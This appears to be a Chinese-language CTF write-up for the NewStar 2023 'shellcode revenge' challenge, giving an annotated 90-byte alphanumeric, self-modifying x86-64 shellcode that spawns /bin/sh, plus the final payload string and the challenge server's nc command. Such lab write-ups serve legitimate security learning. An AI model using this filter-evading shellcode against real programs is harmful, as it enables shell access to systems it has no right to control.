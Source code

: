 ```yaml
---
title: newstar2023 week2 - shellcode revenge
date: 2023/10/4 12:00:00
updated: 2024/8/26 17:18:00
tags:
    - shellcode
thumbnail: /assets/newstar2023/regs.png
excerpt: 分析新生赛shellcode，构建90字节的shellcode并成功利用。
---
```


## 文件分析

下载`shellcodere`, 保护全开  
ghidra分析为64位程序

## 解题思路

程序将shellcode读到0x66660000处，并过滤掉所有非大写字母和数字  
这真的是新生赛吗！搓了我好几天

## 准备

先检查寄存器的值都为多少  
![reg_values](/assets/newstar2023/regs.png)

xor主要使用rbx，要清空它；rax和rdx都有特定值要存放，所以用rcx来存基址；
`pop rdi`, `pop rsi`都要搓出来，还有0x3b和sh字符串

程序布局：在可使用的范围内，前段为程序，后端为数据

以下是按字符反汇编解析

## Shellcode分析

```as shellcode
exec:
push rdx                         ; R
pop  rcx                         ; Y set base addr
xor  qword ptr [rcx + 0x5a], rbx ; H1YZ
xor  rbx, qword ptr [rcx + 0x5a] ; H3YZ zero out rbx
xor  bl, byte ptr [rcx + 0x49]   ; 2YI xor pivot 1
xor  byte ptr [rcx + 0x4a], bl   ; 0YJ
xor  byte ptr [rcx + 0x4e], bl   ; 0YN 2* 48 -> 1a
xor  byte ptr [rcx + 0x51], bl   ; 0YQ
xor  byte ptr [rcx + 0x59], bl   ; 0YY 2* zero out last byte
xor  bl, byte ptr [rcx + 0x49]   ; 2YI zero out bl
xor  rbx, qword ptr [rcx + 0x4a] ; H3YJ set rbx value
xor  rbx, qword ptr [rcx + 0x52] ; H3YR xor to get /bin/sh
push rbx                         ; S
push rsp                         ; T point to /bin/sh
;now bl is 2f
xor  bl, byte ptr [rcx + 0x4b]   ; 2YK xor pivot 2
xor  byte ptr [rcx + 0x38], bl   ; 0Y8 make 0x5e
push rdi                         ; W
pop  rdx                         ; Z zero out rdx
xor  byte ptr [rcx + 0x39], bl   ; 0Y9 make 0x5f
xor  al, 0x4f                    ; 4O
xor  al, 0x44                    ; 4D
xor  al, 0x30                    ; 40 make al equals to 0x3b
push rdi                         ; W
pop rsi                          ; G is xored by 0Y8; zero out rsi
pop rdi                          ; F is xored by 0Y9; point to /bin/sh
;now bl is 19
xor bl, byte ptr [rcx + 0x54]    ; 2YT xor pivot 3
xor byte ptr [rcx + 0x43], bl    ; 0YC make 0x0f
xor byte ptr [rcx + 0x44], bl    ; 0YD make 0x05
syscall                          ; OE is xored by 0YC0YD
```

```plaintext
data_section:
rcx + 'E': 000 ; just padding; shrink it to get a shorter shellcode
rcx + 'H': 3   ; xor pivot 2
rcx + 'I': R   ; xor pivot 1
rcx + 'J': H607H60R ; xor part 1
rcx + 'R': 5TYY5EXR ; xor part 2
rcx + 'Z': \0  ; store rbx later
```

最后shellcode长度：**90字节**

{% notel green fa-arrow-right tips %}
1. gdb在调试shellcode的时候建议用si，ni会直接运行到底
2. 网上资料可能不全，需要自己摸索，比如'40'就是自己反汇编才知道的
3. 字符间换来换去还挺麻烦的，用用下面的函数
{% endnotel %}

```python
def toHex(s: str):
    ret = ''
    for c in s:
        ret += hex(ord(c))[2:]

def toChr(s: str):
    ret = ''
    for i in range(0, len(s), 2):
        ret += chr(int(s[i:i+2], 16))
```
## EXPLOIT

`nc node4.buuoj.cn 28975`

*RYH1YZH3YZ2YI0YJ0YN0YQ0YY2YIH3YJH3YRST2YK0Y8WZ0Y94O4D40WGF2YT0YC0YDOE0003RH607H60R5TYY5EXR*  
*cat flag*

## 参考

1. [short shellcode](https://blog.csdn.net/A951860555/article/details/110936441)
2. [alphanumeric shellcode编写指南](https://dl.packetstormsecurity.net/papers/shellcode/alpha.pdf)
3. [在线汇编/反汇编器](http://shell-storm.org/online/Online-Assembler-and-Disassembler/)
4. [好用的在线异或](http://i.goto327.top:85/Tools1/XOR.aspx)

Done.
